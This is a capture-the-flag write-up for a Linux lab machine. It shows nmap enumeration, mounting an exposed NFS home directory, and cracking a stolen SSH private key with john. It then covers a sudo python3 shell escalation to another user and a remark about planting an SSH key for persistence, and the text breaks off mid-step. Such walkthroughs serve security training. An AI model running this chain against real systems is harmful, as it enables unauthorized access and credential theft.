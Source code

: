 ```yaml
---
tags: [Beginner, Linux]
title: Shares
created: '2020-05-25T19:25:40.092Z'
modified: '2020-05-25T20:16:02.682Z'
---
```


# Shares
- IP: `172.31.1.7`
- OS: Linux
## Enumeration
### Writeup
We run NMAP and get all the open ports.

Since we have nfs ports open, we try to figure out if there's any shares we can mount with `showmount`. That shows use that `/home/amir` is accessible to `*.*.*.*`.
Let's try and mount that by executing `mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`. We can now read the files in `/mnt/Shares`.
The folder that is the most interesting is the `.ssh` folder, containing an authorized_keys file and corresponding keys, but we can only read the `.bak` version, which still contains a private key.
We also found ssh running on a higher port. We set the permissions of the key to `700` but when we try to use the private key to log in (`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`), we get asked for a password, which we currently don't have.
The next idea is to crack the private key with john but first we need to convert the key to a hash with `ssh2john`. After running john on that, we get a password `hello6`, which we can use to log in as amir!
### Commands
#### NMap
- `nmap -p 1-65535 -T4 -A -v 172.31.1.7`
```xml
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pet Shop
111/tcp   open     rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34883/udp   mountd
|   100005  1,2,3      40303/udp6  mountd
|   100005  1,2,3      41611/tcp6  mountd
|   100005  1,2,3      47897/tcp   mountd
|   100021  1,3,4      42653/tcp6  nlockmgr
|   100021  1,3,4      43947/tcp   nlockmgr
|   100021  1,3,4      47799/udp   nlockmgr
|   100021  1,3,4      55090/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open     nfs_acl  3 (RPC #100227)
27853/tcp open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
|_  256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
32195/tcp filtered unknown
37623/tcp open     mountd   1-3 (RPC #100005)
37653/tcp open     mountd   1-3 (RPC #100005)
43947/tcp open     nlockmgr 1-4 (RPC #100021)
47897/tcp open     mountd   1-3 (RPC #100005)
```
#### ShowMount
- `showmount -e 172.31.1.7`
```bash
Export list for 172.31.1.7:
/home/amir *.*.*.*
```
#### Mount
`mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`
#### SSH
`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`
#### ssh2john
`/usr/share/john/ssh2john.py fromServer/id_rsa.bak > amir_ssh_hash`
#### john
`john --wordlist=/usr/share/wordlists/rockyou.txt amir_ssh_hash`
-> `hello6`

## Enumeration as Amir
### Writeup
We run LinPEAS and immediately notice we're part of the `sudo` group, but sadly, without knowing the current password, that doesn't really help us.
From doing `sudo -l`, we see we can run `pkexec` and `python3` as `amy` and get a shell as her by doing `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`.

Here we find `access.txt`: `dc17a108efc49710e2fd5450c492231c`
But before we move on, let's built some persistence in by uploading our private key to the server so we can ssh in as `amy`.
### Commands
#### Sudo
- `sudo -l`
```bash
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: 
```
- `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`
